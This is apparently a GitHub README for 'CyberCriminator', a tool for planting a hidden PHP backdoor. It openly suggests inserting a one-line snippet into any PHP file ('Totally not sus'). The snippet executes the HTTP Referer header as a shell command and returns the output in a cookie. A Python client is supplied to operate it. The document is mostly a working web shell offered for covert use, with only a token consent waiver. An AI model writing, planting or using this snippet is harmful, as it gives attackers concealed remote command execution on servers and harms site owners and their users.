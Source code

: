 # CyberCriminator
Plant it in any PHP file. Totally not *sus*

## Installation

```bash
$ sudo apt-get install python3-pip
$ pip3 install requests
$ sudo apt-get install python3-urllib3
$ git clone https://github.com/cybercriminator/Server/tree/main/NinjaMethod && cd NinjaMethod
```

## Disclaimer
Only works if `shell_exec()` function isn't disabled

## Usage

Upload `ninja.php` in the server OR insert the ff. php code anywhere in a PHP file.

```php
<? if(isset($_SERVER['HTTP_REFERER'])){$_=$_SERVER['HTTP_REFERER'];$b = `$_`;session_destroy();setcookie("x", $b, time()+30*24*60*60);} ?>
```
and then

```bash
python3 ninja.py
```

Now we can access it by inputting the NinjaMethod URL in the prompt

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Waiver
I am NOT responsible to any misusage of this. Only do this with consent

## License
[Cyber Criminator](https://github.com/cybercriminator)
